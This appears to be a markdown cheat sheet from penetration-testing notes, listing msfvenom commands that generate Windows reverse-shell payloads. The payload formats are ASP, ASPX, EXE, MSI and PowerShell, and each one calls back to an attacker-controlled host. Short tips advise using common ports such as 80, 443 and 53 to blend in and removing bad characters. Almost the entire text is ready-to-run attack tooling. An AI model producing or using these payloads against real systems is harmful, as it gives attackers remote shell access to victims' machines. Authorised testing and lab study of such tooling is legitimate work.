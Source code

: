 # reverse shells

## tipps

- Specify architecture for windows reverse shells!
- Check windows version if its new its probably x64
- use commen ports such as 80, 443, 53

## general

### list payloads

```bash
msfvenom -l payloads
```

## windows

### generate asp reverse shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=5555 -f asp > shell.asp
```

### generate exe reverse shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<lhost> LPORT=5555 -f exe -o reverse.exe
```

### generate msi reverse shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<lhost> LPORT=5555 -f msi -o reverse.msi
```

### generate windows rev shell without bad chars

```
msfvenom -p windows/shell_reverse_tcp LHOST=<lhost> LPORT=5555 -b "\x00\xotherchars" -f rb
```

### generate aspx reverse shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<lhost> LPORT=80 -f aspx > reverse.aspx
```

### powershell reverse shell

```bash
msfvenom -p windows/x64/powershell_reverse_tcp LHOST=10.10.14.240 LPORT=5555 -f exe -o rev.exe
```
